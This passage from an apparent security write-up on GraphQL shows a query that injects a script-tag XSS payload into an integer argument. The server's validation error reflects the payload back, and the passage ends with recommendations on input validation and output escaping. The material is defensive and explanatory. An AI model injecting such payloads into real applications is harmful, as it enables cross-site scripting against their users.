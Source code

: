 I send this GraphQL request to the query `myInfo(accessToken: String!, veterinaryId: Int!): Veterinary`, i replace the Veterinary identifier (that is an integer) by a String XSS payload:

```javascript
query sqli {
  myInfo(accessToken: "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNTQ2NDU1MDQwfQ.P87Ef-GM99a_vzzbUf2RprUYxFgxgPnSukaVnz22BJ0",
    veterinaryId: "<script>alert('XSS')</script>") {
    id
  }
}
```  

I receive this GraphQL response that reflect my payload, so, depending on the GraphQL client and is escaping/sanitizing behavior it can open the door to XSS:

```javascript
{
  "data": null,
  "errors": [
    {
      "message": "Validation error of type WrongType: argument 'veterinaryId' with value 'StringValue{value='<script>alert('XSS')</script>'}' is not a valid 'Int' @ 'myInfo'",
      "locations": [
        {
          "line": 3,
          "column": 5,
          "sourceName": null
        }
      ],
      "description": "argument 'veterinaryId' with value 'StringValue{value='<script>alert('XSS')</script>'}' is not a valid 'Int'",
      "validationErrorType": "WrongType",
      "queryPath": [
        "myInfo"
      ],
      "errorType": "ValidationError",
      "path": null,
      "extensions": null
    }
  ]
}
```

#### Reco

* Apply input validation on data received via Query/Mutation/Subscription prior to use it
* Ensure that the client rendering the data from GraphQL response apply escaping/sanitization on data prior to render them.

### Resource exhaustion

[CWE-400](https://cwe.mitre.org/data/definitions/400.html)
